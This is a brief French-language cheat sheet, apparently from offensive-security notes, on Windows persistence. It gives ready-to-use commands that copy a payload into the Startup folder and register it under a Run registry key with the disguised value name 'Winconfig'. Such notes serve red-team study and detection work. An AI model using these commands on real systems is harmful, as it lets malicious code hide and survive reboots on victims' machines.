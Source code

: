 # StartUp Folder and Registry Keys

## Start Folder

Elle consiste a copier le payload dans le répertoire de démarrage de windows


```sh
copy c:\pers\payload.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
```


## Registry Keys

Ajouter une cle de register contenant votre payload

```sh
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

```sh
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Winconfig /t REG_SZ /d "c:\pers\payload.exe" /f
```